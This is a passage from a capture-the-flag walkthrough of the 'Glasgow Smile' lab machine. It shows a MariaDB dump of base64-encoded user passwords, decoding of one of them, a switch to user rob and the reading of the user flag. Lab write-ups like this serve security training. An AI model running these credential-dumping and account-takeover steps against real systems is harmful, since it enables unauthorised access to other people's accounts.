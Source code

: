 ```bash
+--------------------+
```

Switching to the "batjoke" database and listing its tables.

```bash
MariaDB [joomla_db]> use batjoke;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [batjoke]> show tables;
+-------------------+
| Tables_in_batjoke |
+-------------------+
| equipment         |
| taskforce         |
+-------------------+
2 rows in set (0.001 sec)
```

Retrieving the content of the "taskforce" table.

```bash
MariaDB [batjoke]> select * from taskforce;
+----+---------+------------+---------+----------------------------------------------+
| id | type    | date       | name    | pswd                                         |
+----+---------+------------+---------+----------------------------------------------+
|  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
|  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
|  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
|  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
|  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
|  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
+----+---------+------------+---------+----------------------------------------------+
6 rows in set (0.002 sec)
```

In the output we can see that the passwords are in base64, we decode rob's password, since this user exists on the system.

```bash
www-data@glasgowsmile:/var/www/html/joomla$ ls /home/
abner  penguin  rob

www-data@glasgowsmile:/var/www/html/joomla$ echo 'Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/' | base64 -d; echo
???AllIHaveAreNegativeThoughts???
```

I switched to the user rob, in his home directory there is a file called "Abnerineedyourhelp", that contains a ROT and base64 encoded message.

```bash
www-data@glasgowsmile:/var/www/html/joomla$ su rob
Password:
rob@glasgowsmile:/var/www/html/joomla$ id
uid=1000(rob) gid=1000(rob) groups=1000(rob),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)


rob@glasgowsmile:~$ ls
Abnerineedyourhelp  howtoberoot  user.txt
rob@glasgowsmile:~$ cat user.txt 
JKR[f5bb11acbb957915e421d62e7253d27a]
rob@glasgowsmile:~$ cat howtoberoot 
  _____ ______   __  _   _    _    ____  ____  _____ ____  
 |_   _|  _ \ \ / / | | | |  / \  |  _ \|  _ \| ____|  _ \ 
```